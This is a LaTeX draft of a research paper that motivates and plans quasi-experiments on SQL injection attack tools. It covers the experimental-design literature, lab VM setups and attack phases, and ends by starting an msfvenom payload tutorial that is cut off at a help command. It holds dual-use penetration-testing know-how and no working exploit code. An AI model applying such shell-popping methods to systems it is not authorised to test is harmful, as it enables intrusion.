"Quasi-Experiment: An experiment in which units are not assigned to conditions randomly. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 12.}"

"Natural Experiment: Not really an experiment because the cause usually cannot be manipulated; a study that contrasts a naturally occurring event such as an earthquake with a comparison condition. \endnote{Ibidem.}"

"Correlational Study: Usually synonymous with nonexperimental or observational study; a study that simply observes the size and direction of a relationship among variables. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 12.}"

As Shadish discussed the features of a quasi-experiment, he noted some key ideas:

"Quasi-experiments share with all other experiments a similar purpose -- to test descriptive causal hypotheses about manipulatable causes ... \endnote{Ibidem.}(p. 14)"

"In quasi-experiments, the cause is manipulable and occurs before the effect is measured. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 14: "In quasi-experiments, the cause in manipulable and occurs before the effect is measured."}"

"In quasi-experiments, the researcher has to enumerate alternative explanations one by one, decide which are plausible, and then use logic, design, and measurement to assess whether each one is operating in a way that might explain any observed effect. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 14: "In quasi-experiments, the researcher has to enumerate alternative explanations one by one, decide which are plausible, and then use logic, design, and measurement to assess whether each one is operating in a way that might explain any observed effect."}"

"Quasi-experimentation is falsificationist in that it requires experimenters to identify a causal claim and then to generate and examine plausible alternative explanations that might falsify the claim. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 15: "The ruling out of alternative hypotheses is closely related to falsificationist logic popularized by Popper (1959). Popper noted how hard it is to be sure that a general conclusion ... is correct based on a limited set of observations ... After all, future observations may change ... So confirmation is logically difficult. By contrast, observing a disconfirming instance ... is sufficient, in Popper's view, to falsify the general conclusion ... Accordingly, Popper urged scientists to try deliberately to falsify the conclusions they wish to draw rather than only to seek information corroborating them. Conclusions that withstand falsification are retained in scientific books or journals and treated as plausible until better evidence comes along. Quasi-experimentation is falsificationist in that it requires experimenters to identify a causal claim and then to generate and examine plausible alternative explanations that might falsify their claim."}"

"Thus the focus on plausibility is a two-edged sword: it reduces the range of alternatives to be considered in quasi-experimental work, yet it also leaves the resulting causal inference vulnerable to the discovery that an implausible-seeming alternative may later emerge as a likely causal agent. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 17: "Thus the focus on plausibility is a two-edged sword: it reduces the range of alternatives to be considered in quasi-experimental work, yet it also leaves the resulting causal influence vulnerable to the discovery that an implausible-seeming alternative may later emerge as a likely causal agent."}"

Given those terms and ideas about quasi-natural experiments, I would assert that:
(1) The moment of actual \gls{attack} is a natural experiment.
(2) The moment of discovery of an \gls{attack} by observation or log review is a correlational study.
(3) The systematic attempt to develop, to test, or to implement a defense against a SQLIATK in a testable, repeatable, observable manner is a quasi-experiment.
Accepting these concepts, let us continue with our discussion by exploring why we might be interested in conducting experiments like these.

% DEAN Citations needed

Returning to the work by Dean, we can see that a "sprint" or round of experiments for the purpose of changing a policy might itself be regarded as a quasi-experiment. Dean discussed the impact of policy changes, particularly at the national level. He wrote, "Quasi-natural experiments, by contrast, do not involve the random application of treatment. Instead, a treatment is applied due to social or political factors, such as a change in laws or implementation of a new government program. ...The group that receives treatment in a quasi-natural experiment is called the comparison group instead of the control group.\endnote{Kampf, David, ed.; Dean, Benjamin. "Natural and Quasi-Natural Experiments to Evaluate Cybersecurity Policies," Journal of International Affairs. pp.139-160. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University.}(p. 148)"

Dean also advised readers to consider to cost of these kinds of experiments. While I would expect that, for academic purposes, we might initially see cost as a matter of number of test iterations or with respect to monetary expense of machine setup and licensing, Dean related experimental design to cost. He asserted that a more complex experimental design would be more expensive to run in order to affect a policy change("... the robustness and generalizability of the results increases at the expense of practicality and/or cost" \endnote{Ibidem.}(p.149)). The design types he presented graduated from single-element characteristics that required simple treatment to multi-element characteristics that involved more complex patterns of control groups and testing. Dean advised that three feature types could broadly describe the experiment's complexity:
(1) whether the study was prospective or retrospective; (2) whether the study used a control group, a comparison group, or neither; (3) comparison of data over time or over multiple characteristics. \endnote{Kampf, David, ed.; Dean, Benjamin. "Natural and Quasi-Natural Experiments to Evaluate Cybersecurity Policies," Journal of International Affairs. pp.139-160. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University.}(p. 149)

% ==============================================



\section{Motivation}

After seeing so many attacks against a commercial site that I work with on a daily basis, I felt a natural interest in the \gls{attack} tools available worldwide.  In my research on effective and ineffective attacks against my client's commercial sites, I have found:  \gls{attack} tools, author signatures in source code, ingenious page-serving mechanisms to imitate web server actions, instructional videos on SQL Injection \gls{attack} tool use, websites publishing catalogs of known website defacements, and the like.  There is a generous field of support for the casual attacker.  As a defender, I see a marketplace crowded with expensive products produced by companies that have months-long backlogs of \gls{threat} patching needs.  I believe that the reality of our marketplace is that we have to be prepared to conduct defensive network security and application security experiments ourselves.

We know that large \gls{ddos} attacks like the Mirai \gls{botnet} can reasonably make static defense inadequate \endnote{\_\_\_\_\_. "Internet of Things \gls{ddos} White Paper." Electricity Information Sharing and Analysis Center, IOT\_DDOS\_Whitepaper.pdf. This report described some contemporary cyberattacks. It included coverage of the Mirai \gls{botnet} and other large attacks.}.  We see attacks like these as prevalent threats.  They are occurring with such frequency that noting the latest newsworthy \gls{attack} by its timely characteristic like size, victimization base, owner of breached computer, etc., is more likely to date our views than to describe the urgency of defending against attacks like these.  We can see that, in general, cybersecurity threats have risen to the attention of the general public.  Of these threats, different varieties of injection attacks, taken together, have a leading influence.

OWASP's website for its Top 10 of 2017 describes injection as, "Injection flaws, such as SQL, \gls{os}, and LDAP injection occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization. \endnote{\_\_\_\_\_. "https://owasp.org/index.php/Top\_10\_2013-Top\_10" OWASP, 2017. INTERNET.}"  I learned about LDAP injection attacks by attending a security conference class given by Jared Haight.  In a sample LDAP injection \gls{attack}, we devised a Powershell function that would check a username and \gls{password} combination by contacting a computer with an LDAP call.  If the username and \gls{password} were valid, the spoofed LDAP call would work.  In that situation simple LDAP injection attacks could be used to verify user credentials.  That information could support other, escalated, mischief within a network.\endnote{Haight, Jared. "Introduction to Powershell and How to Use It for Evil." Information Security Lecture sponsored by B-Sides Charleston. Charleston, SC, \gls{usa}. April 2017. Jared Haight is the author of "PS>\gls{attack}," a library of \gls{attack} tools for PowerShell. He has since transitioned to employment as a security researcher for Microsoft.}  OWASP considers these injection variants just as harmful as SQLIATK, but due to our limits, we will explore SQLIATK here.

Should we need to respond to the idea that injection attacks are worth securing against, my reading has included selections from Paul Day's "CyberAttack." \endnote{Day, Paul. CyberAttack: The truth about digital crime, cyber warfare and government snooping. Carlton Books, 2014. ISBN 978-1-78097-533-7. Paul Day's book provides short, easy-to-read chapters on popular topics in the malicious use of computers.}  This is a general information book on contemporary issues in information security that summarizes emerging topics and explains information security industry jargon in plain terms.

Day pointed out some contemporary factors that show that crime supported by computer abuse has made a substantial impact on many economies and cultures.  We see the 2001 Budapest Convention as an international standard and mechanism for accepting the concept of computer crimes across nations and cultures.  Day noted that the European Commission chose to adopt a "'general policy against \gls{cybercrime}'\endnote{Ibidem.}(p. 7)" because there was "no agreed definition of \gls{cybercrime}" in May 2007.  He wrote, "The Commission's solution was to propose a threefold definition:  1. Traditional forms of crime such as fraud or forgery committed over electronic communication systems and information systems.  2.  The publication of illegal content over electronic media (e.g. child sexual abuse material or incitement to racial hatred).  3.  Crimes unique to electronic networks (e.g. attacks against information systems, denial of service and hacking).\endnote{Day, Paul. CyberAttack: The truth about digital crime, cyber warfare and government snooping. Carlton Books, 2014. ISBN 978-1-78097-533-7. Paul Day's book provides short, easy-to-read chapters on popular topics in the malicious use of computers.}(p. 7)"  Day wrote, in the United States, "The \gls{fbi} currently track \gls{cybercrime} types using 27 different categories of \gls{cybercrime} -- but there are more than 60 subcategories.  Different law enforcement agencies across the world have different \gls{cybercrime} laws -- and some countries have no laws at all. \endnote{Ibidem.}(p. 7)"   Similarly, Dean noted, "... all countries might benefit on a net basis from international cooperation around increasing cybersecurity and fighting \gls{cybercrime}. Yet such cooperation does not occur ogranically, even between countries or regions with commonly held values and interests, (e.g. the Eurpoean Union and United States). \endnote{Kampf, David, ed.; Dean, Benjamin. "Natural and Quasi-Natural Experiments to Evaluate Cybersecurity Policies," Journal of International Affairs. pp.139-160. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University.}(p. 146)"

Day explained, "Cyber-criminals have quickly learned how to steal in cyberspace - and the 'triangle of \gls{cybercrime}' relies on three things: (1) the generation of possibilities for \gls{cybercrime} through data theft and \gls{malware} introduction; (2) the operation and maintenance of cyber-criminals through a secondary supply chain; and (3) a seemingly endless supply of low level cyber-criminals and 'cash-out mules' who are the foot soldiers in the cyber-mafia -- and who get caught eventually."  \endnote{Day, Paul. CyberAttack: The truth about digital crime, cyber warfare and government snooping. Carlton Books, 2014. ISBN 978-1-78097-533-7. Paul Day's book provides short, easy-to-read chapters on popular topics in the malicious use of computers.}(p. 6) In this scheme that Day outlined, our interest in evaluating SQL Injection Attacks is related to his first point.  SQLIATK are a common mechanism of intrusion; those injection-based intrusions are often the breach in a system's security that leads to subsequent victimization from computer crimes.

Later in his book, after discussing the direct and indirect costs of \gls{cybercrime}, Day summarized three studies commissioned by the \gls{us} and UK governments between 2006 and 2012.  In those the studies provided several recommendations for preventing \gls{cybercrime}.  Among those relevant to our experiments, include:

"1.  Interfere with the distribution of crime-ware via filtering, automated patching and coutnermeasures against content injection attacks.  Spam filters can prevent the delivery of deceptive messages" (i.e. a common mechanism for gaining initial entry to a system by deception and user-sponsored intrusion). "Automated patching can make systems less vulnerable.  Improved countermeasures to content injection attacks can prevent cross-site scripting and SQL injection attacks. \endnote{Ibidem.}(p. 48)"  This assertion by Day suggests support for the general idea of developing patches to systems subject to \gls{attack}.

"6.  Interfere with the ability of the attacker to receive and use confidential data by encoding data in a form that renders it valueless to an attacker. \endnote{Day, Paul. CyberAttack: The truth about digital crime, cyber warfare and government snooping. Carlton Books, 2014. ISBN 978-1-78097-533-7. Paul Day's book provides short, easy-to-read chapters on popular topics in the malicious use of computers.}(p. 49)" This is significant to us because many of the standardized methods available in server-side programming languages contain methods already available to neutralize an attacker's attempt to sniff out a target with simple matching by encrypting the data before the \gls{attack} occurs.  Dictionary attacks, based on the exhaustive iteration over word lists, can be foiled by breaking the ability of an attacker to discover a simple match within a system by encrypting the data beforehand.  Similarly, navigation within a system can be foiled by jamming dictionary style attacks that an attacker might use to navigate to commonly named directories by using encrypted strings instead of plaintext names.  That is, if directory names are coined with a \gls{hash} instead of plain language, then they can form a defensive layer against these kinds of attacks.  We have witnessed these tactics in the wild, and they can be an attacker's obstacle in some of the experiments that we might establish.

"3. Prevent crime-ware from executing by validating code prior to execution. \endnote{Ibidem.}(p. 49)"  In large corporations we may see job-scheduling software that is used to initiate and validate a program run against a pre-planned schedule.  For most small computer users, however, there aren't readily available code-validation procedures that would interfere with execution that could be readily implemented in a way that would stifle SQLIATK.  Many attacks seem to be predicated on the idea that the attacker intends to abuse a legitimate system.  The \gls{attack} is often a momentary abuse of a common, working program.  Perhaps its features or options or ability to carry data are momentarily misused for the purpose of \gls{attack}.  In these situations, the seemingly easy advice to validate code can actually turn into a complex problem.  I would suggest that computers are good at following linear instructions, but presently poor at human right-brain style thinking that allows us to make holistic evaluations in a moment.\endnote{Edwards, Betty. Drawing on the Right Side of the Brain: A Course in Enhancing Creativity and Artistic Confidence. Jeremey P. Tarcher, Inc., St. Martin's Press, 1989. ISBN 978-0-87477-513-2. Betty Edwards' book describes theories in left and right brain cognition in simple, popular terms for the purpose of supporting instruction in elementary illustration. Her book provides examples on the differences in left-brain, analytical and detailed thinking and in right-brain, holistic evaluations.}  In practice I have seen that identifying SQLIATK code can be done by directly reading server logs; as a person familiar with reading code, I can readily see the \gls{attack} occurring in isolated lines.  However, explaining to a computer, in principle, that each run of a server side program was validated before that program executes is a tall order.  Instead, we often see web programming professionals opting for validating data input.  Some more thorough evaluations might guide data validation with client-side form-based suggestive limitations, server-side inspection and validation of received data, and maybe server-side inspection and validation of processed data prepared for output.  All in, this concept of code validation prior to execution is a rich area for exploration with experiments like these.  I would suggest that preventing known \gls{attack} code form executing might be an example of a quantifiable and qualifiable test that could yield simple \gls{binary} ("yes/no") results that might lend itself well to simple mathematical scoring and statistical analysis.

With contemporary factors like these to be considered, I think we can suggest that SQLIATK experiments are worthwhile.  We can see that they can be societally beneficial by reducing the likelihood of successful computer crimes.  We can see that the experiments can serve humanity even though we may not have a universal acceptance of what a computer crime is (e.g. the European Convention's in-principle acceptance, above).  We can see that there is probable cause for suggesting that advice for mechanisms to reduce computer crime, like Paul Day's suggestions above, could be testable as experiments by computer scientists.

\section{Experimental Structure}

Let us consider the physical components to the computer environments that might support these experiments.  These include:  the computer environment that holds the operational programs, the mechanisms that can be used for conducting tests with and without human intervention, the structure of organized files holding data and programs throughout the experiment, and the choice of \gls{attack} code.

For computer environments that we might use, I have encountered three main methods for simulating websites that looked reasonable to me for running simulations of attacks.  The first, my favorite, was introduced to me at a B-Sides Charleston event on reversing and hacking Windows 7 applications with Kali Linux.\endnote{\_\_\_\_\_.Kali Linux, "https://www.kali.org/". INTERNET.}  In these setups, a VirtualBox VM \endnote{\_\_\_\_\_. VirtualBox, "https://www.virtualbox.org/". INTERNET.} is used to hold the target \gls{os} and another VM is used to hold the attacker's \gls{os}. \endnote{Doug Rodgers, Twitter: @pandatrax, INTERNET. "Beginner \gls{exploit} Writing," B-Sides Charleston class, October 2016.} In another, VMWare virtual machines \endnote{\_\_\_\_\_. VMWare, "http://www.vmware.com/". INTERNET.} were used to support Samurai Web Testing Framework 3.3.2.  For those attacks, Jason Gillam was able to demonstrate Burp Suite and some other \gls{attack} tools against a website that was especially built to be vulnerable.  These "hackable" sites are designed to be more like targets for CTF (i.e. "Capture The Flag" games used by hackers to compete for discovering target strings of code by successfully completing security puzzles).  While robust and ready for hacking, these models are better suited for training security professionals than for running real-world experiments evaluating the effectiveness of SQLIATK tools.  As a training tool for the people interacting in security, this "hackable site" model is clearly an effective learning tool. \endnote{Gillam, Jason. "Web Penetration and Testing," B-Sides Charleston, 11NOV2016. Class at a security conference, Charleston, SC.}  In the third model for setting up target sites, I saw Jared Haight establish an effective class on security quickly by having a target site established in a Microsoft Azure environment \endnote{\_\_\_\_\_. Microsoft Azure, "https://azure.microsoft.com/en-us/?cdn=disable". INTERNET.}, with subtle variations for each student's logins.  In that class it seemed as though each environment was established in a VM and cloned.\endnote{Haight, Jared. "Introduction to Powershell and How to Use It for Evil." Information Security Lecture sponsored by B-Sides Charleston. Charleston, SC, \gls{usa}. April 2017. Jared Haight is the author of "PS>\gls{attack}," a library of \gls{attack} tools for PowerShell. He has since transitioned to employment as a security researcher for Microsoft.}  That method seemed to provide many people with sites quickly.  In a classroom environment, I felt that it was superior to having each student build his own sets of VMs.  But, whether hosted on another computer, "in the cloud," or on a local machine, using VMs was clearly an industry standard for establishing target environments.  The subtle differences in \gls{virtualization} software seemed to be unimportant; the basic idea of using a VM to build the desired target environment was dominant.  Using virtual machines as part of the experiment means that there are some hardware limitations on the experiments.  Older equipment, for example, might not be suitable.  I have discovered through experience that both the BIOS options and spec sheets of CPUs will often note the \gls{virtualization} capabilities of a CPU, if they are present.  Many CPUs manufactured after 2005 will contain these notations.  Given the widespread use of \gls{virtualization} software and hardware, and accepting that a machine older than that might need a different testing environment, I felt that this will be an acceptable constraint for upcoming experiments.  When considering these three main models for security experimentation that I have seen over the past year, I felt that the best choice would be a model that would allow programmers to simulate their desired protected site, like a commercial client's website, or a section of it.  I have decided that the first model is the better choice for the type of experiments that I would like to run.

For testing mechanisms available to us, we should choose programs that simulate but do not require human intervention.  In contemporary web programming graphical user interfaces are frequently implemented and may be related to attacks on web programming as either the \gls{attack} program or the target.  However, their initial design, the expectation that people would have to use the devices, is not the only option.  Many of those controls can be programmatically activated or simulated.  To that end we can use programs like: JUnit, QUnit, PHPUnit, or Selenium.\endnote{\_\_\_\_\_. JUnit, "http://junit.org/junit4/". INTERNET.}\endnote{\_\_\_\_\_. QUnit, "http://qunitjs.com/". INTERNET.}\endnote{\_\_\_\_\_. PHPUnit, "https://phpunit.de/". INTERNET.}\endnote{\_\_\_\_\_. Selenium, "http://docs.seleniumhq.org/". INTERNET.}  This way, we could program the activation of controls and not rely as heavily on human test participants.  Also, we could extract live \gls{attack} code, modify it slightly, and send it using programs like "curl" with "cron".

For the structure of the target and attacker file systems, we could consider four main components:  (1) Common Linux \gls{os} variants; (2) Microsoft Windows \gls{os} structures, like their Windows VM \endnote{\_\_\_\_\_. WindowsVM, "https://www.microsoft.com/en-us/download/details.aspx?id=3702". INTERNET.} ; (3) a variety of database engines like MySQL \endnote{\_\_\_\_\_. MySQL, "https://www.mysql.com/" . INTERNET.} to support dynamic web pages and the main target for injections; also, their supporting programs like phpMyAdmin \endnote{\_\_\_\_\_. phpMyAdmin, "https://www.phpmyadmin.net/". INTERNET.} (4) web server control panels, web server engines like Apache, and other related files.

To understand our expectations of the \gls{attack}, we would need to decide how deeply we would simulate some of the common patterns of SQLIATK.  The targeted URLs may be a given, as there are target lists of vulnerable websites that circulate in forums on the Internet.  Meanwhile, the other stages would need to be determined:  recon, dropper, RAT, sustained \gls{exploit}, and exploited system integration.  These phases of operation are common to \gls{attack} attempts I have seen in the past.  They would be influential components in any SQLIATK experimentation.

\section{The Road Ahead}
I am looking forward to these upcoming months in which I will carry out some of these experiments.  I'm excited to get started with practical experimentation.  Can we see the compromises that can occur during SQLIATK that I've witnesses in past \gls{attack} and reversing classes?  What will those \gls{attack} successes look like?  Will expected defensive conditions hold?  Will expected weaknesses show failure?  Very exciting.

In this paper, we have examined the support for the design of experiments with SQL Injection \gls{attack} tools.  We have shown that there is a scientifically valid pathway that can link experimental simulations to policy and practice improvements.  We know that those policy changes can affect risk assessments by associating the type of event with appropriate risk categories.  We have examined elementary terms and challenged our assumptions about them in order to make reasoned choices in our descriptions.  We understand that despite the many complex influences upon systems we can draw valid scientific conclusions from experiments involving SQL Injection Attacks in a quasi-experiment.  We recognize that the parameters of experimentation can change and be redefined by establishing a clearly defined scope of experiment.  We understand that the complexity of experimental design is related to its costs.  Given these ideas, I think we have established a reasonable foundation for describing and evaluating SQL Injection \gls{attack} tools through quasi-natural experimentation in order to inform risk assessments and information security policies.

\section{Sample Tutorial with Msfvenom}

Before I delve into \index{SQL Injection}SQL Injection Attacks in a laboratory environment, I wanted to confirm some basic \gls{shell}-popping activities between two VMs.  As noted earlier, I had visited the Charleston, SC area for a reversing class that demonstrated \index{buffer overflow}stack based Linux and Windows buffer overflow attacks.  In those exercises and others, I had learned of an industry standard reliance on \index{exploitation frameworks}exploitation frameworks like \index{Metasploit}Metasploit, \index{Burp Suite}Burp Suite, Empire and others.  Combined with \index{social engineering}social engineering, \index{phishing}\gls{phishing}, and some custom scripting:  these tools are main items in the colleciton of any commercial \index{pentester}pentester.  To warm up, I wanted to exercise some elementary skills.  While reading Weidman's book \endnote{Weidman, Georgia. Penetration Testing: A Hands-On Introduction to Hacking. No Starch Press, 2014. ISBN 978-1-59327-564-8. This book provided strong references and tutorials for common pen-testing methods. While slightly dated, aside from the technological limitations that have arisen after publication, Weidman's book provides another view of a common path in pen-testing, and therefore, hacking, web programs.}, I came across some tutorials that I wanted to apply.  Some notes on one of those follows.  Weidman's book is not only well-known, but I am confident that I will turn to it later for web-based attacks.  The later chapters (14, 16 and 17) look similar to some other exercises I have done \endnote{Doug Rodgers, Twitter: @pandatrax, INTERNET. "Beginner \gls{exploit} Writing," B-Sides Charleston class, October 2016.} \endnote{Gillam, Jason. "Web Penetration and Testing," B-Sides Charleston, 11NOV2016. Class at a security conference, Charleston, SC.}.

The test environment that I established included two pre-built \index{VirtualBox}VirtualBox \index{virtual machines}virtual machines.  Each was set up and configured prior to this exercise.  In one VM was installed a copy of \index{Kali Linux}Kali Linux.  In the other was installed a copy of Windows IE11 VM.  Both VMs were up and running with Internet connections and addressing by my local router.  The ability of each to communicate directly with each other was tested with ping.  The IP addresses of each VM was known by using "command line" commands of ifconfig and ipconfig.  Given those conditions, I proceeded with the tutorials.  After several failed runs, I revised the directions to fit my system to create the directions that follow.  I worked several, but here we focus on "Creating Standalone \index{payloads}Payloads with \index{msfvenom}Msfvenom," from Chapter 4 \endnote{Weidman, Georgia. Penetration Testing: A Hands-On Introduction to Hacking. No Starch Press, 2014. ISBN 978-1-59327-564-8. This book provided strong references and tutorials for common pen-testing methods. While slightly dated, aside from the technological limitations that have arisen after publication, Weidman's book provides another view of a common path in pen-testing, and therefore, hacking, web programs.} (pp. 103-107).  Most of the computer commands in this section are directly quoted from Weidman, with small revisions noted.





\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB2.jpg}
  \caption{Screenshot of Windows IE11 VM in a VirutalBox virutal machine.}
  \label{fig:WeidmanCH4PresentationB2}
\end{figure}

Start the Windows IE11 VM (Figure \ref{fig:WeidmanCH4PresentationB2}) and start the Kali Linux VM.  Verify known values for both VMs so that we are aware of key details like connectivity, IP address, and basic funcitonality.  After witnessing that both VMs are working, we turn our attention back to the Kali Linux VM.

\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB1.jpg}
  \caption{Screenshot of Kali Linux in a VirtualBox virutal machine.}
  \label{fig:WeidmanCH4PresentationB1}
\end{figure}

In the Kali Linux VM, start a terminal window (Figure \ref{fig:WeidmanCH4PresentationB1}).

\begin{figure}[h!]
  
\includegraphics[width=\linewidth]{images/WeidmanCH4PresentationB3.jpg}
  \caption{Screenshot of msfvenom displaying help arguments.}
  \label{fig:WeidmanCH4PresentationB3}
\end{figure}

Enter {\it msfvenom -h} and review the arguments (Figure \ref{fig:WeidmanCH4PresentationB3}).

\begin{figure}[h!]
